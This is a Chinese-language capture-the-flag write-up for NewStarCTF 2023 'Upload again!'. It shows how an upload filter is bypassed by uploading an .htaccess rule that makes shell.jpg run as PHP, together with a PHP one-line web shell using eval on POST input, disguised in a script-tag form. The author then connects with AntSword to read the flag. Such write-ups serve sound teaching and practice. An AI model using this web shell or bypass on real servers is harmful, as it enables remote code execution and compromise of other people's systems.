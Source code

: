 ```yaml
---
tags:
  - BuuCTF
  - 中等
  - 文件上传
  - .htaccess
  - 一句话木马
---
```


# \[NewStarCTF 2023\] Upload again!

## 前置工作

进入靶机网页，看到如下界面，感觉非常难受

![](https://z1.ax1x.com/2023/10/12/piSIj2Q.png)

先试一下普通的一句话木马 & 改后缀，发现没有任何漏洞可以钻，你使用任何原生支持的 PHP 文件格式都会被阻拦，并报出

```
你打不开的，别试了
```

![](https://z1.ax1x.com/2023/10/12/piSopbq.png)

经过多个文件的测试，发现他**只会**拦截与 PHP 有直接关联的文件（更恰当的说，应该是文件后缀）

于是就想到可以使用 `.htaccess` 来使文件被强制当成 PHP 文件运行，OK，说好了，一拍即合

## 编写 `.htaccess`

我们除了传入 `.htaccess`，后面也会再传入一个图片木马文件 `shell.jpg`，所以我们只需要使得 `shell.jpg` 被当作 PHP 脚本执行即可，如下是 `.htaccess` 文件

```xml
<FilesMatch "shell.jpg">
    SetHandler application/x-httpd-php
</FilesMatch>
```

## 编写木马

然后就是我们的 `shell.jpg`

```php
<?
echo "HelloWorld"; // 这个是为了验证是否被运行，可以不写
@eval($_POST['attack']);
?>
```

但当你像这样传入 `shell.jpg` 的时候，靶机就不愿意了

![](https://z1.ax1x.com/2023/10/12/piSomrR.png)

这多半就是 PHP 脚本的开头 `<?` 惹的祸，只要出现了 `<?`，那么就无法上传，包括最原始的 `<?php`，所以我们用第二种写法来编写 `shell.jpg`

```js
<script language="php">
echo "HelloWorld";
@eval($_POST['attack']);
</script>
```

现在再上传，发现上传成功，进入上传地址 `http://e56e35c3-081a-4f17-bcc8-d944d8358293.node4.buuoj.cn:81//upload/shell.jpg`，大大的 **HelloWorld** 就写在上面了

## 攻入靶机

一句话木马的意义就是为了让我们使用蚁剑进行连接，老套路，进入后直接去根目录，就发现了 `this_is_flag` 文件，进入就找到了 Flag `flag{7beaa386-03e2-412d-af48-21b869aa6df6}`